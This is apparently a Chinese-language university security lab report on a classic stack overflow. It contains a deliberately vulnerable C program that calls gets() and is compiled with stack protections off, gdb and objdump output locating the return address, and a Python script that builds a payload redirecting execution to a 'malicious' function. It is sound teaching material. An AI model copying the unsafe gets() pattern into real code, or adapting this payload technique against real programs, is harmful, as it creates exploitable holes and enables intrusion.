

# 实验六：简单栈溢出实验

## 实验步骤

### 设计受害程序

受害程序是一个简单的 C 程序，包含两个函数：`victim_function()` 和 `malicious_function()`。`victim_function()` 使用不安全的 `gets()` 函数读取用户输入到固定大小的缓冲区 `buffer[64]` 中，存在栈溢出漏洞。此次实验的目的，就是利用这个缓冲区漏洞，覆盖 `victim_function()` 的返回地址，让其返回到 `malicious_function()` 的入口地址，从而实现恶意行为。

```c
#include <stdio.h>
#include <stdlib.h>

void malicious_function() {
    printf("Malicious function executed!\n");
    exit(0);
}

void victim_function() {
    char buffer[64];
    printf("Enter some text: ");
    gets(buffer);
    printf("You entered: %s\n", buffer);
}

int main() {
    printf("Starting victim program...\n");
    victim_function();
    printf("Exiting victim program...\n");
    return 0;
}
```

对其进行编译：

```bash
gcc victim.c -o victim -g -m32 -fno-stack-protector -no-pie 
```

注意，这里将编译目标指定为 32 位（`-m32`），关闭了 Stack Canary 保护（`-fno-stack-protector`），关闭了 PIE（`-no-pie`）。

### 反汇编受害程序并构造恶意负载

使用 objdump 对受害程序进行反汇编：

```bash
objdump -d ./victim
```

发现 `malicious_function()` 的函数入口地址为 `0x08049196`：

```bash
08049196 <malicious_function>:
 8049196:       55                      push   %ebp
 8049197:       89 e5                   mov    %esp,%ebp
 8049199:       53                      push   %ebx
 804919a:       83 ec 04                sub    $0x4,%esp
 804919d:       e8 2e ff ff ff          call   80490d0 <__x86.get_pc_thunk.bx>
 80491a2:       81 c3 52 2e 00 00       add    $0x2e52,%ebx
 80491a8:       83 ec 0c                sub    $0xc,%esp
 80491ab:       8d 83 14 e0 ff ff       lea    -0x1fec(%ebx),%eax
 80491b1:       50                      push   %eax
 80491b2:       e8 a9 fe ff ff          call   8049060 <puts@plt>
 80491b7:       83 c4 10                add    $0x10,%esp
 80491ba:       83 ec 0c                sub    $0xc,%esp
 80491bd:       6a 00                   push   $0x0
 80491bf:       e8 ac fe ff ff          call   8049070 <exit@plt>
```

再使用 gdb 对受害程序进行反汇编：

```bash
gdb ./victim
```

在 `victim_function()` 处设置断点后运行程序，程序将在 `victim_function()` 处停止，此时我们可以查看当前栈帧的情况：

```bash
(gdb) break victim_function 
Breakpoint 1 at 0x80491d6: file victim.c, line 11.
(gdb) run
Starting program: /home/leverimmy/Documents/Projects/Cybersecurity-Fundamentals-Labs/Stack-Overflow/victim 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Starting victim program...

Breakpoint 1, victim_function () at victim.c:11
11          printf("Enter some text: ");
(gdb) info frame
Stack level 0, frame at 0xffffc2b0:
 eip = 0x80491d6 in victim_function (victim.c:11); saved eip = 0x8049244
 called by frame at 0xffffc2d0
 source language c.
 Arglist at 0xffffc2a8, args: 
 Locals at 0xffffc2a8, Previous frame's sp is 0xffffc2b0
 Saved registers:
  ebx at 0xffffc2a4, ebp at 0xffffc2a8, eip at 0xffffc2ac
```

这说明函数返回地址存放的地址为 `0xffffc2ac`。

再查看 `buffer[]` 的首地址：

```bash
(gdb) print &buffer
$1 = (char (*)[64]) 0xffffc260
```

因此，`buffer[]` 的首地址为 `0xffffc260`。

### 构造恶意负载

`0xffffc2ac` 和 `0xffffc260` 之差，就是我们需要填满的负载前缀。在前缀后加上 `malicious_function()` 的函数入口地址，就构造出了恶意负载。

```python
def p32(value):
    return value.to_bytes(4, byteorder='little')

if __name__ == "__main__":
    target_address = 0x8049196          # malicious_function() 的函数入口地址
    offset = 0xffffc2ac - 0xffffc260    # 返回地址和 buffer[] 首地址之间的距离

    payload = b"A" * offset + p32(target_address)

    with open("payload.txt", "wb") as f:
        f.write(payload)

    print(f"Payload written to payload.txt: {payload}")
```

这样会把恶意负载输出到 `payload.txt` 中。

## 实验截图

以 `payload.txt` 为输入，运行 `./victim`：

```bash
cat payload.txt | ./victim
```

得到如下结果：



输出中含有 `Malicious function executed!`，这说明栈区溢出攻击成功。
